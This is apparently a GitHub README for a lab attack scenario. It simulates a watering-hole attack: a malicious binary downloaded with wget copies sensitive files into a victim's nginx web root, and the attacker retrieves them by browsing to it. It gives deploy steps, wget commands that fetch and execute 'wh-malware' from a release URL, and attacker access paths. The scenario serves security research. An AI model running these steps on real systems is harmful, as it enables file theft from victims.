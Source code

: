 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar



## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-malware https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg1 https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg2

chmod 777 wh-*
```
2. Execute `wh-malware`

```
./wh-malware
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

